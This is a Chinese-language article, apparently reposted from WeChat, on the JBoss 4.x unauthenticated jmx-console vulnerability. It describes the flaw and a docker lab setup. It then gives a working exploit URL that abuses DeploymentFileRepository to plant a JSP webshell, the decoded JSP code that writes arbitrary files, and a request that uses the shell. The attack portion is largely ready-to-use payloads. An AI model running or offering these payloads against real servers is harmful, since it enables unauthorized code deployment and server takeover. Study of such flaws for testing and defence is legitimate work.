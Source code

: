> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/hunuYAWkHliBCutCjymaQw)

漏洞汇总

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUaPNrb3f20j38XsR35c0ZGrhUEb59oJETJ9etQtvUWmAOsnPpka3njcQ/640?wx_fmt=png)

**jboss 未授权访问漏洞**

**漏洞描述**

    此漏洞主要是由于 JBoss 中 / jmx-console/HtmlAdaptor 路径对外开放，并且没有任何身份验证机制，导致攻击者可以进⼊到 jmx 控制台，并在其中执⾏任何功能  
    未授权访问管理控制台, 通过该漏洞, 可以后台管理服务, 可以通过脚本命令执行系统命令, 如反弹 shell,wget 写 webshell 文件

**影响版本**

    jboss 4.x 以下

**环境搭建**

    使用 docker 搭建的靶场，访问页面 your-ip:8080

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUaJybgXfbXN0tkQBr3FYg6icLSoUuvbAbLXwK99VSOORCDVibaQAHiclJ8Q/640?wx_fmt=png)

**漏洞检测**

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUavPCTGCkfIUibNiawbPz7vPOH3lJ9hdeErRq96icvnpU8aRzjrtSCNdq6Q/640?wx_fmt=png)

**漏洞复现**  

**1. 写入一句话木马**

```
http://ip/jmx-console//HtmlAdaptor?action=invokeOpByName&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodName=store&argType=java.lang.String&arg0=August.war&argType=java.lang.String&&arg1=shell&argType=java.lang.String&arg2=.jsp&argType=java.lang.String&arg3=%3c%25+if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b+%25%3e&argType=boolean&arg4=True
```

    url 中的参数: arg0 代表 war 包的名称，arg1 = 文件名称，arg2 = 文件后缀名，arg3 = 文件内容

将 arg3 的中值取出来并进行 url 解码后为

```
<% if(request.getParameter(“f”)!=null)(new java.io.FileOutputStream(application.getRealPath(“/”)+request.getParameter(“f”))).write(request.getParameter(“t”).getBytes()); %>
```

    这个语句的功能是写入文件，f = 文件名，t = 文件内容，执行后回显

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUaicErWnu7QSMozHKcdREMleZCrY8FvicfIygtoPg6mwD4sHhaxrtulFbg/640?wx_fmt=png)

    写入 1.txt 文件  

```
http://ip:8080/August/shell.jsp?f=1.txt&t=hello%20world!
```
